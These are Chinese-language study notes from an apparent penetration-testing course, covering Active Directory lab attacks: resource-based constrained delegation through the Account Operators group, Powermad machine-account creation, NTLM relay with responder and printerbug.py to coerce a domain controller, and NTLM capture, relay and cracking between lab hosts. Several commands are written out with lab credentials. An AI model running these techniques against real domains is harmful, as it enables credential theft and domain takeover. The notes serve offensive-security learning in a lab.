 

1h 14min 条件：被控用户属于Acount Operators组的用户账户,因为这组里面的成员可修改域内任意主机的msDS-AllowedToActOnBehalfOfOtherIdentity属性。(除DC)，然后这里查询当前后发现被控机用户刚好在这组内。下面思路基本一样，添加xiaodiB用户，获取sid值。代理，获取票据，导入，建立连接

加ao组后：

![1733656511526](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1733656511526.png)

将webadmin加入ao组前后前使用查看命令------判断有没有利用条件：

![1733656735966](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1733656735966.png)

此时ao组成员webadmin刚好为被控机，所以可以利用，后续和前面一样，主要就是要有能创建用户的权限。能执行第一步：使用PowerMad工具创建机器账户powershell Import-Module .\Powermad.ps1;New-MachineAccount -MachineAccount serviceA -Password $(ConvertTo-SecureString "123456" -AsPlainText -Force) ，后面一样

#### 3：HTLM Relay

结合HTLM Relay攻击。利用漏洞

1、能创建机器账户

2、目标开启打印机服务

1h25min 翻车~1h39min      kali监听，然后利用打印机漏洞让DC强制访问被控机，得到hash。后面利用hash生成票据。。。。

条件：

![1733661927163](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1733661927163.png)

这里是使用ntlmrelayx工具responder -I eth1 -wd进行监听，但是需要代理，因为要在同一个网段里才能监听到，然后用  python printerbug.py xiaodi.local/webadmin:admin!@#45@(DCip)   (kali ip )  ,强制让kali访问监听的得到DC的hash，

# 184：重放攻击

中间人攻击，NTML、重放攻击。

捕获，重放，爆破           kali环境已配好，3个网卡，既能和本机通讯，也能和god内网通讯

5min  捕获，用kali (配置时候记得先拍个快照)，一般用钓鱼9min ，让对方访问（被动方式）。用得到的hash值可以重放，14min       21min kali 监听webserver，sqlserver执行访问kali的命令（net use  ip(kali)会将自己的用户密码给kali），然后得到web的回弹。kali就是做的是中继重放，然后给了web，web比对后和sql密码一致，执行了kali重放过来的上线命令。31web   32sql  21 DC

kali监听，用web机进行通讯---因为web和kali的账户密码不匹配，所以没有成功，不过得到的hash可以用来比对重放：

![1733753163835](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1733753163835.png)









25min 不同用户/相同用户都尝试,。web用administrator去尝试连接sql成功，反之sql也是。web用自己的webadmin用户去连接sql不行，拒绝。就是因为用户密码不同。这里就是web机重放攻击sql机

30 min    35min 降权 令牌窃取和进程注入。

43min  脚本重放攻击

48min 破解重放的hash ------- 重放失败 

![1733757925010](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1733757925010.png)

